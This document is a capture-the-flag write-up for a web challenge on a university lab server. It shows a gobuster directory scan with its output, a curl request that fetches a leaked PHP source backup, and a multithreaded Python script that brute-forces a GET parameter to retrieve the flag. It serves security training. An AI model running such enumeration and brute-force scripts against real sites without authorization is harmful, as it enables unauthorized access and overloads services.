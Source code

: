 # Web Recon \& Enumeration Not So Random

First of all we have the site: http://ctf-06.security.cs.pub.ro:8000/ 

'Nothing to see here' which led me to a commonlist to see if there are hidden **endpoints/files/directories** with gobuster an instrument of type brute-force:
**gobuster dir -u http://ctf-06.security.cs.pub.ro:8000/ -w ~/common.txt**

```bash
/.hta.html            (Status: 403) [Size: 292]
/.hta                 (Status: 403) [Size: 292]
/.hta.php             (Status: 403) [Size: 292]
/.htaccess.txt        (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 292]
/.hta.bak             (Status: 403) [Size: 292]
/.htaccess.php        (Status: 403) [Size: 292]
/.hta.txt             (Status: 403) [Size: 292]
/.htpasswd.php        (Status: 403) [Size: 292]
/.htpasswd.html       (Status: 403) [Size: 292]
/.htaccess.bak        (Status: 403) [Size: 292]
/.htaccess.html       (Status: 403) [Size: 292]
/.htpasswd.txt        (Status: 403) [Size: 292]
/.htpasswd.bak        (Status: 403) [Size: 292]
/index.php            (Status: 200) [Size: 19]
/index.php            (Status: 200) [Size: 19]
/server-status        (Status: 403) [Size: 292]
/source.bak           (Status: 200) [Size: 110]
```

The interesting part is **source.bak** and **index.php**: 
We curl: 

```bash
vladpiriia@Vlads-MacBook-Air ~ % curl http://ctf-06.security.cs.pub.ro:8000/source.bak
if (isset($_GET['random_numberrr']) && intval($_GET['random_numberrr']) === $random_number) {
    echo $flag;
}%
```

This means that server verifies if we send a **GET** parameter named random_numberrr then compares that with a secret value $random_number and then if they are equal we are shown the flag.

But : **GET http://ctf-06.security.cs.pub.ro:8000/source.bak?random_numberrr=12345** ***Source.bak*** is a statice file, the server doesn't understand that PHP code, it shows as text, it doesn't run it so we need to modify it to have a script for: **http://ctf-06.security.cs.pub.ro:8000/index.php?random_numberrr=12345**.

```py
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://ctf-06.security.cs.pub.ro:8000/index.php"

def check_number(num):
    try:
        r = requests.get(url, params={'random_numberrr': num}, timeout=3)
        if "SSS{" in r.text:
            return f"\nFlag {num}: {r.text.strip()}"
        else:
            print(f"[-] Testat: {num}", flush=True)
    except requests.RequestException:
        print(f"[!] Eroare la: {num}", flush=True)
    return None

def brute_force_multi(start=20001, end=99999, threads=30):
    with ThreadPoolExecutor(max_workers=threads) as executor:
        futures = [executor.submit(check_number, i) for i in range(start, end + 1)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                print(result)
                executor.shutdown(wait=False, cancel_futures=True)
                break

if __name__ == "__main__":
    brute_force_multi()
```


So then we find the flag at the number *49 999*: **Flag 49999: SSS{random_can_sometimes_be_predictable}**.
